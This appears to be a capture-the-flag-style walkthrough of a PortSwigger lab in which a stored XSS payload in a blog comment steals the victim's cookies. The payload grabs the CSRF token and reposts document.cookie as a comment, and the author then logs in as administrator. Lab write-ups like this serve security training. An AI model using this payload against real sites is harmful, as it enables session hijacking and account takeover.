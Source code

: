 # Exploiting cross-site scripting to steal cookies

So in this challenge, we are going to implement exploitation on user cookies using XSS Attack. We got another example of Blog Site where they allow user to give comment on posts:
![comment-section](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/Comment-Section.png?raw=true)

If we try to attempt XSS using ``<script>`` tag, then we able to perform XSS, it means that we can just insert our payload normally inside the ``<script>`` tag.

![script-tag-attempt](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/script-tag-attempt.png?raw=true)

![script-tag-attempt-success](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/script-tag-attemp-success.png?raw=true)

Now let's create a payload where we able to get user cookies, What we able to do is:

1. Send the user cookies to a webhook or our site that collects user cookies
2. Show the cookies in the comment box

I tried the first solution but the result was not as what i expected, i only got a session but not the cookies we need to gain access since it was a third party and Portwigger didn't allow us to use third party app, so i tried the second solution, I create a payload that force user to request post a comment to a blog, you can find the right endpoint and needed data using intercept in **BurpSuite**. To post a comment, we need to get their CSRF Token, we can find it in the ``<input>`` tag attribute. 

![CSRF-value](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/csrf-value-location.png?raw=true)


This is my final payload:
```html
<script>
    window.onload = function(){
        const Token = document.getElementsByTagName('input')[0].value
        var data = 'csrf='+Token +'&'
        data += 'postId=10&'
        data += 'comment='+document.cookie+'&'
        data += 'name=DjumantotheAdmin&'
        data += 'email=roc@chic.com&'
        data += 'website=https://google.com'
        fetch('https://0a4500e6034e583480d12b22009f0070.web-security-academy.net/post/comment', 
                {
                    method: 'POST',
                    mode: 'no-cors',
                    body: data
                }
            )
    };
</script>
```
So here's how the code works:
- We want to run it right where the content is loaded using ``window.onload()`` function
- We take their CSRF Token from the input tag
- We set the comment using their cookies
- We set the postId value using current blog value which is 10

And this is the result:

![attempt-using-payload](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/attempt-using-payload.png?raw=true)

![Result](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/Result.png?raw=true)

![Success](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/Success.png?raw=true)

![login-as-admin](https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/Access%20as%20Administrator.png?raw=true)
